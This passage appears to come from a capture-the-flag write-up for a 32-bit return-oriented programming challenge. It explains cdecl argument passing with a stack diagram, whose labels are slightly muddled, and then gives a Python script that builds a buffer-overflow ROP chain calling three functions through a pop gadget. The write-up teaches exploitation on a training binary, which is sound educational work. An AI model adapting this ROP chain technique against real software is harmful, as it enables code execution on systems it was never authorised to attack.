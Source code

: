 Consider a function `my_function(arg1, arg2, arg3)`, which takes three arguments. Here’s how this would look in assembly in the `cdecl` calling convention:

```python
push arg3         ; Third argument pushed first (right-to-left order)
push arg2         ; Second argument
push arg1         ; First argument
call my_function  ; Call the function
add esp, 12       ; Clean up the stack (3 arguments * 4 bytes each = 12 bytes)
```

In simple term it is like stack layout looks like this:

```python
+--------------------+
| my_function        |  <-- Calling function
+--------------------+
| Return Address     |  <-- Points to the address after call function completed
+--------------------+
| arg0               |  <-- First argument (pushed last)
+--------------------+
| arg1               |  <-- Second argument
+--------------------+
| arg2               |  <-- Third argument (pushed first)
+--------------------+
```

## Payload:

```python
from struct import pack

callme_one   = 0x080484f0
callme_two   = 0x08048550
callme_three = 0x080484e0

word1 = 0xdeadbeef
word2 = 0xcafebabe
word3 = 0xd00df00d

pop_three = 0x80487f9

payload = b'A' * 44
payload += pack('<I', callme_one)
payload += pack('<I', pop_three)
payload += pack('<I', word1)
payload += pack('<I', word2) 
payload += pack('<I', word3)

payload += pack('<I', callme_two)
payload += pack('<I', pop_three)
payload += pack('<I', word1)
payload += pack('<I', word2) 
payload += pack('<I', word3)

payload += pack('<I', callme_three)
payload += pack('<I', pop_three)
payload += pack('<I', word1)
payload += pack('<I', word2) 
payload += pack('<I', word3)

# Output the payload
with open("payload", "wb") as f:
    f.write(payload)

print("Payload written to 'payload'")
```